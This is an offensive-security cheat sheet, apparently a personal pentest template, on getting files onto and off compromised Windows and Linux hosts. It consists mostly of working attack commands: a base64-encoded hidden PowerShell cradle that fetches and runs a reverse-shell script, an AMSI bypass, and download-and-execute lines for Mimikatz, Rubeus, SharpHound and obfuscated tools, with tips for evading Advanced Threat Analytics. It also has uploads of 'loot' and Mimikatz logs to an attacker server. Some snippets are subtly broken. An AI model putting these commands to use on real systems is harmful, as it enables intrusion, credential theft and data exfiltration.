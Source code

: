 # Download And Upload Files

### Getting a reverse shell <a href="#getting-a-reverse-shell" id="getting-a-reverse-shell"></a>

Run this command once to generate the required Encoded command with the IP address.

```
$Command = "(New-Object System.Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/pwn.ps1') | IEX"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
$EncodedCommand = [Convert]::ToBase64String($Bytes)
$EncodedCommand
powershell -Sta -Nop -Window Hidden -EncodedCommand $EncodedCommand
```

Shells should be spawned using **pwn.ps1** and additional scripts will be edited inside **pwn.ps1**

```
Invoke-Expression(Invoke-WebRequest 'http://<% tp.frontmatter["Host IP"] %>/amsi.txt' -UseBasicParsing);
Invoke-Expression(Invoke-WebRequest 'http://<% tp.frontmatter["Host IP"] %>/Invoke-Sharpcradle.ps1' -UseBasicParsing);

# Invoke-Sharpcradle -Uri WebserverURI -Argument1 firstargument -Argument2 seccondargument -Argument3 thirdargument
# Invoke-Sharpcradle -Uri http://<% tp.frontmatter["Host IP"] %>/ParentHollowInjectStager.exe -Argument1 /port:443 -Argument2 /program:C:\windows\system32\notepad.exe -Argument3 /parent:spoolsv
```

#### Directories for writing files <a href="#directories-for-writting-files" id="directories-for-writting-files"></a>

```
# Inside meterpreter 
C:\\Windows\\Tasks
C:\\Windows\\Temp

# Inside Powershell/cmd
C:\Windows\Tasks
C:\Windows\Temp

# In linux
/dev/shm
/tmp
```

### Download and Upload <a href="#download-and-upload" id="download-and-upload"></a>

#### Download and Execute <a href="#download-and-execute" id="download-and-execute"></a>

**Certutil**

```
certutil -urlcache -f http://<% tp.frontmatter["Host IP"]%>/shell.exe shell.exe 
```

**PowerShell Download**

```
# Download and save shell to tasks
Invoke-WebRequest -Uri http://<% tp.frontmatter["Host IP"]%> -OutFile C:\Windows\Tasks\shell.exe;Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```

```
# PowerView/SharpView
iex(New-Object Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/PowerView.ps1');DomainTrustMapping
Get-DomainComputer -Domain <Domain> | Resolve-IPAddress
iex(New-Object Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/Invoke-SharpView.ps1')
# Obfuscated SharpView
iwr "http://<% tp.frontmatter["Host IP"] %>/ObfSharpView.exe" -outfile "C:\Windows\Tasks\ObfSharpView.exe"
```

```
# Get All Domains
$domains = @("domain1", "domain2", "domain3")
foreach ($domain in $domains) {Get-DomainComputer -Domain $domain | Resolve-IPAddress}
```

```
powershell -ep bypass
# PowerUp/SharpUp
iex(New-Object Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/PowerUp.ps1');Invoke-AllChecks
iex(New-Object Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/Invoke-SharpUp.ps1')

# Turtle Toolkit
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://<% tp.frontmatter["Host IP"] %>/TurtleToolKit.dll -UseBasicParsing).Content);Import-Module -Assembly $a

# Invoke-Bloodhound
iex(New-Object Net.WebClient).DownloadString('http://<% tp.frontmatter["Host IP"] %>/Invoke-Bloodhound.ps1')
Invoke-Bloodhound -CollectionMethod All -Domain demo.local -ZipFileName loot.zip -Verbose
# If bloodhound misses the sessions
Invoke-Bloodhound -CollectionMethod LoggedOn -Domain demo.local -ZipFileName loot.zip -Verbose
# To Avoid Detection from Advanced Threat Analytics
Invoke-BloodHound -CollectionMethod All -ExcludeDC -Verbose

# SharpHound.exe
iwr "http://<% tp.frontmatter["Host IP"] %>/SharpHound.exe" -outfile "C:\Windows\Tasks\SharpHound.exe"

# Mimikatz.exe
iwr "http://<% tp.frontmatter["Host IP"] %>/mimikatz.exe" -outfile "C:\Windows\Tasks\mimikatz.exe"

# Rubeus / Invoke-Rubeus / Obfuscated Rubeus
iwr "http://<% tp.frontmatter["Host IP"] %>/Rubeus.exe" -outfile "C:\Windows\Tasks\Rubeus.exe"

# Winpeas
iwr "http://<% tp.frontmatter["Host IP"] %>/winPEASany.exe" -outfile "C:\Windows\Tasks\winpeas.exe"
```

**FTP**

```
ftp $IP -P $PORT
```

```
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

```
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

**SMB**

```
smbclient -L -U 'username' -P 'password' \\$IP\share
prompt OFF
recurse ON
mget *
```

```
poetry run crackmapexec smb $IP$ -u user -p pass --get-file \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
```

**SCP**

```
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2
scp user@server:/path/to/remotefile.zip /Local/Target/Destination
scp user@host:/remote/path/\{file1.zip,file2.zip\} /Local/Path/
```

**MSSQL**

```
poetry run crackmapexec mssql $IP$ -u user -p pass --get-file \\Windows\\Temp\\whoami.txt /tmp/whoami.txt
```

#### Downloading MultipleFiles <a href="#downloading-multiplefiles" id="downloading-multiplefiles"></a>

```
$baseUrl = "http://<% tp.frontmatter["Host IP"] %>/"
$fileNames = @("file1.txt", "file2.txt", "file3.txt")
$downloadPath = "C:\Windows\Tasks"

foreach ($file in $fileNames){
	$url = $baseUrl + $file
	$filePath = Join-Path $downloadPath $fileName
	Invoke-WebRequest -Uri $url -OutFile $downloadPath
	Write-Host "[+] Downloaded" $file "to" $downloadPath
}
```

#### Upload files <a href="#upload-files" id="upload-files"></a>

**PowerShell Upload**

```
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.161/upload.php', 'c:\Windows\Tasks\mimi.log')
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.161/upload.php', 'c:\Windows\Tasks\loot.zip')
```

**FTP**

```
put file.docx
```

**SMB**

```
impacket-smbserver monk . -smb2support
```

```
net use * \\<% tp.frontmatter["Host IP"] %>\monk
```

```
powershell run crackmapexec smb $IP$ -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt
```

**SCP**

```
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2
scp file.txt remote_username@10.10.0.2:/remote/directory
```

**MSSQL**

```
powershell run crackmapexec mssql $IP$ -u user -p pass --put-file /tmp/whoami.txt 
```
